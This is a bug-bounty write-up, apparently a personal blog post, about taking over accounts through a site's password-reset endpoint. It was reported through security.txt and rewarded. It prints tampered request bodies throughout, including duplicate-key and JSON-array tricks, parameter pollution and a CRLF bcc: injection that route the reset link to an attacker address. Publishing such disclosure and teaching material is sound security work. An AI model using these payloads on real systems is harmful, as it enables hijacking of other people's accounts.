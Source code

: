   ![Reset-Password](https://user-images.githubusercontent.com/106372696/171008056-dcd80d53-b8c0-4373-ab92-1a7d75615122.png)


Hi Everyone,

This is the story about how I managed to takeover some one account using password reset flaw on the website.While browsing the website I need to signin to the account but It was a long time ago since I logged into my account.so, I can't remember my password so I decided to reset my password, but suddendly I decide to play with password reset functionality if I can reset someone's account.
	
#### Attempt 1:
I intercept the traffic with Burpsuite and capture the request and saw something like this

```bash
POST /ResetPassword

...
...

{
	"email" : "something@email.com"
}

```
I changed the request body something like this

```bash
POST /ResetPassword

...
...

{
	"email" : "myemail1@email.com",
       "email" : "myemail2@email.com"
}
```

And of course its failed only reset token sent to myemail1 account not myemail2 account.

#### Never Give Up:
After that I tried some other methods like following

```bash
POST /ResetPassword

...
...

{
	"email" : "myeamil1@email.com%20myemail2@email.com"
}
```

```bash
POST /ResetPassword

...
...

{
	"email" : "myemail1@email.com%20cc:myemail2@email.com"
}
```

#### One Last Ride...
Ok, thats it I was ready to give up but I remember one blog post that I read, it mentioned you can use **JSON Table** That will help you to send set of elements in array so, I give it a try luckily It sent password reset link to my attacker account and I can able to reset victim's account.

![nofinal](https://user-images.githubusercontent.com/106372696/171010957-5694d6ff-aa51-434e-a6c4-8cd31e005200.png)


Then I decided to send the report to their security team, but they don't have VDP or RDP on any crowdsource platform like Hackerone or Bugcrowd.So, I search **security.txt**(RFC 9116) and find their security team email that tells me where I should report related to security issues. I sent my finds and they reward me through btc (they don't hall of fame :( ).

	Note: You can find security.txt by https://www.website.com/.well-known/security.txt
	
#### Other methods to check password related issues:
```bash
POST /ResetPassword

...
...

email="victim@email.com&email=attacker@email.com"
```

```bash
POST /ResetPassword

...
...

email="victim@email.com%20email=attacker@email.com"
```

```bash
POST /ResetPassword

... 
...

email="victim@email.com|email=attacker@email.com" 
```

```bash
POST /ResetPassword 

... 
...

email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"  
```

I don't do bug bounties but this one I accidently try my luck and got success..Thanks for Reading this article. I hope you all enjoy this one. cheers :)

Usefull Resources :

[Password Reset Poisoning - Portswigger](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning)

[10 Password Reset Flaws - AnugrahSR](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)

[All about Password Reset Vulnerablities - Infosec Writeups](https://infosecwriteups.com/all-about-password-reset-vulnerabilities-3bba86ffedc7?gi=5037f755d2b2)

